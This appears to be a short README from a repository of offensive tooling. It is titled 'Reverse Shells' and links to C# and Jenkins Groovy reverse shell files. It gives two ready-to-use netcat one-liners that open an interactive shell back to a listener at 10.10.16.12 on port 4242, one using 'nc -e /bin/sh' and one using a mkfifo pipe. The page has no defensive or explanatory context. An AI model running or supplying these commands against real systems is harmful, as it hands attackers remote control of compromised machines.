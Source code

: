 # Reverse Shells

- [C Sharp Reverse](./csharp-reverse.cs)
- [Jenkins Groovy Reverse](./jenkins-reverse.md)

## Netcat with -e option
```
$nc -e /bin/sh 10.10.16.12 4242
```


## Netcat without Netcat
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/usr/bin/sh -i 2>&1|nc 10.10.16.12 4242 >/tmp/f
```